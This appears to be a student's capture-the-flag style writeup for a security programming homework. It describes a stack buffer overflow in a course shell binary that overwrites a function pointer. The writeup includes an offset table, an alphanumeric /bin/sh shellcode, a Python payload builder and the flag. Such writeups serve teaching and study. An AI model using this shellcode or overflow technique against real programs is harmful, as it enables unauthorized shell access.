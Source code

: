 ```yaml
---
layout: post
title: 'nphw1 Writeup'
category: memo
slug: nphw1-writeup
---
```

Security Programming Homework 2-1

## Intelligence Gathering

- There is a vulnerability in piece of code which contains `strtok()`
- There is a `call eax` in the binary
- Because it is an interactive shell program, bad characters are 0x00, 0x0a,
  0x2f (filter out by specific function in the program)

## De-complie the binary

It is hard to debug using gdb. A possible method is to use gdbserver to do
remote debugging. But sadly, I do not have time to learn how to use it. Maybe
next time...

So I turned up using IDA Pro to do the static analysis. By decompilation,
bunch of functions showed up:

```
...
frame_dummy
passCmdline
splitCmdline
parseArgv
printEnv
setEnv
getResult
sendResult
closePipes
exeCmd
nextLine
main
passPipe
addPipe
delPipe
...
```

By doing some observation, I picked up three interesting functions for deeper
inspection: `main`, `passCmdline`, `splitCmdline`, `exeCmd`.

| Offset of cmdline | Meaning                               |
| -----------------:| ------------------------------------- |
| 0                 | pointer of whole command line         |
| 1 - 10000         | pointer of each word                  |
| 10001             | number of words in whole command line |
| 10002 - 11001     | single command, seperated by '\|'     |
| 11002             | argc                                  |
| 11003             | not important                         |
| 11004             | stdout                                |
| 11005             | pointer of function printEnv()        |
| 11006             | pointer of string "printenv"          |
| 11007             | pointer of function setEnv()          |

Since the program uses function pointer to call printEnv(), we can simply put
our shellcode to replace the original printEnv() with the aid of buffer
overflow.

According to the table above, stack overflow will happen when we type more than
1000 words in one single command (commands are seperated by '|'). To overwrite
index 11005 with our shellcode, we need to stuff 1003 words in total.

The 1005th word will overwrite the pointer of the string "printenv", which used
to compared to the very first word. When they are equal, the program will run
into printEnv(). So our job is to ensure they will be the same, otherwise it
won't call our shellcode.

## Shellcode

The shellcode for execute `/bin/sh` is showed following, grab from the
Internet. See the references at the end of this article for more information.

```
PYj0X40PPPPQPaJRX4Dj0YIIIII0DN0RX502A05r9sOPTY01A01RX500D05cFZBPTY01SX540D05ZFXbPTYA01A01SX50A005XnRYPSX5AA005nnCXPSX5AA005plbXPTYA01Tx
```

## Exploitation

The first word should be the same as the last word, and the shellcode should be
1004th word. That's all!

```python
payload = 'a ' * 1003
payload += 'PYj0X40PPPPQPaJRX4Dj0YIIIII0DN0RX502A05r9sOPTY01A01RX500D05cFZBPTY01SX540D05ZFXbPTYA01A01SX50A005XnRYPSX5AA005nnCXPSX5AA005plbXPTYA01Tx '
payload += 'a'
```

Don't forget to append a new line character to fire our payload!

## Flag

The flag is `SECPROG{N3tw0rk_Pr0gr4mm1ng_h0m3w0rk_1s_e4s1er}`

## References

- [Linux x86 Shellcoding 101 – Objective: Topics introduction and exit(69) shellcode](http://0xcd80.wordpress.com/2011/04/16/linux-x86-shellcoding-101/)
- [x86 alphanumeric shellcodeを書いてみる](http://inaz2.hatenablog.com/entry/2014/07/11/004655)
